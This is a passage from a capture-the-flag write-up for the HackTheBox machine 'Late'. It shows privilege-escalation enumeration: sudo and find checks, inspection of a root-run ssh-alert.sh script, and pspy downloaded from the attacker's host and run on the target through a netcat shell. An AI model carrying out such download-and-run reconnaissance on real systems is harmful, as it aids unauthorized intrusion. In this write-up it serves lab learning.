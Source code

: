 Lets try `su -` to see if we can get an easy win.

```bash
svc_acc@late:~$ su -
Password: 
```

Lets check if `svc_acc` can run any command as root.

```bash
svc_acc@late:~$ sudo -l
[sudo] password for svc_acc: 
```

Lets try if we can find any interesting files owned by `svc_acc`.

```bash
svc_acc@late:~$ find / -user svc_acc 2>/dev/null
...
< too much information being printed >
^C
svc_acc@late:~$ find / -user svc_acc 2>/dev/null | grep -v '/proc\|/home\|/var\|/sys\|/run'
/usr/local/sbin
/usr/local/sbin/ssh-alert.sh
/dev/pts/0
svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

Oh? There is an interesting `ssh-alert.sh` file that is available but is it executed by root?

Lets use `pspy` to check! OwO

```bash
- Local Machine -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
...

- Netcat Shell -
svc_acc@late:~$ wget http://10.10.14.4/pspy64
...
svc_acc@late:~$ chmod +x pspy64
svc_acc@late:~$ ./pspy64
...
< ssh into svc_acc again using another terminal to execute the ssh-alert script >
...
2022/08/20 08:08:22 CMD: UID=0    PID=1922   | /bin/bash /usr/local/sbin/ssh-alert.sh 
```
